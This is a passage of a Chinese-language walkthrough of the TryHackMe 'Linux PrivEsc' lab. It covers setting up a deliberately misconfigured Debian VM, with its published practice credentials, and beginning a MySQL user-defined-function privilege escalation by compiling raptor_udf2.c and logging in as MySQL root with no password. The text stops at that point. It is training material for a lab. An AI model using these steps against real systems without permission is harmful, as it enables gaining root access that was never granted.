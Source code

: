 ```yaml
---
sidebar_position: 3
---
```


# Linux PrivEsc - Linux 特权提升

> [TryHackMe | Linux PrivEsc](https://tryhackme.com/room/linuxprivesc)
>
> Updated in 2023-12-20
>
> 在一个特意配置错误的 Debian 虚拟机上练习你的 Linux 特权提升技能，有多种方式可以获 \ n\n 取 root 权限！SSH 可用。凭证：user:password321
>
> Practice your Linux Privilege Escalation skills on an intentionally misconfigured Debian VM with multiple ways to get root! SSH is available. Credentials: user:password321

## 部署易受攻击的 Debian 虚拟机

这个房间旨在引导你了解各种 Linux 特权提升技术。为此，你首先需要部署一个有意设定的易受攻击的 Debian 虚拟机。这个虚拟机最初是由 Sagi Shahar 创建的，作为他本地特权提升研讨会的一部分，但已经由 Tib3rius 在 Udemy 的《Linux 特权提升——针对 OSCP 及更多！》课程中进行了更新。在那里可以找到对本房间中使用的各种技术的详细解释，以及有关在 Linux 中找到特权提升的演示和提示。

:::info Answer the questions below

运行 `id` 命令。 结果是什么？

```plaintext
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```

:::

## 服务漏洞利用

MySQL 服务正在以 root 身份运行，并且服务的 "root" 用户未设置密码。我们可以利用一种常见的漏洞利用方式，利用用户定义函数（UDF）通过 MySQL 服务以 root 身份运行系统命令。

切换到 `/home/user/tools/mysql-udf` 目录：

```shell
cd /home/user/tools/mysql-udf
```

使用以下命令编译 `raptor_udf2.c` 漏洞利用代码：

```shell
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

以 root 用户身份使用空白密码连接到 MySQL 服务：

```shell
mysql -u root
```
